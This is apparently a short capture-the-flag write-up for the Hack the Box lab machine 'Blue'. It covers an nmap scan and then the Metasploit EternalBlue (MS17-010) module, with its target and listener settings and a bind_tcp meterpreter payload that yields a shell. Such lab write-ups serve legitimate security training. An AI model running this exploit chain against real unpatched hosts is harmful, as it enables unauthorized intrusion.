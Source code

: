 ```yaml
---
title: Blue - Hack the Box
date: 2024-10-13 12:29:11 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Blue.png
---
```

---
title: Blue - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Blue.png
---
---
title: 2024-10-12-Blue - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Blue.png
---
![Image](/assets/Blue.png)

Blue is perhaps the most trademarked and popular box on the platform, and for good reason. It's a very easy and simple setup meant to test the attacker's understanding of metasploit, CVE research, and basic linux commands. There is no better place to start, so why don't we?
# Scan

Our Scan:
`nmap -sV -sC --open -p- 10.10.10.40` 

The Result:
```
Nmap scan report for 10.10.10.40
Host is up (0.13s latency).
Not shown: 64243 closed tcp ports (reset), 1283 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m56s, deviation: 34m34s, median: 1s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-09-03T00:23:26
|_  start_date: 2024-09-03T00:20:34
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC
|   Workgroup: WORKGROUP
|_  System time: 2024-09-03T01:23:29+01:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.69 seconds
```

Our NMAP scan gives us solid information. We've got host names, remote procedure call (RPC) ports, etc. The gem here lies in the smb scripts NMAP has run for us! We can see an outdated version of Windows 7, and upon further research, can recognize the vulnerability in MS17_010 or Eternal Blue. This will be our attack vector.

# Initial Access

In order to press on, we need to fire up msfconsole, and search for our proper exploit.

`search exploit/windows/smb/ms17_010_eternalblue` 

Once found, we can configure out options to reflect:

`RHOSTS: 10.0.10.40`
`RPORT: 445`
`LHOST: 10.0.2.15`
`LPORT: 4444`

Additionally, the `reverse/tcp` recommended payload kept throwing errors for me, so I opted for a `bind_tcp` meterpreter session instead.

`set payload windows/x64/meterpreter/bind_tcp`

This yields a shell:

![Image](/assets/Screenshot 2024-09-02 at 9.13.55 PM.png)

Now, we need to root around for a flag. Use `pwd` and `ls` to scope surroundings, and use `cd ../` to backtrack out of the nonsense. Once the users directory is found, navigate towards the desktop, where the flag resides. I'll let you grab these for yourself! 

#easy #windows #msfconsole 
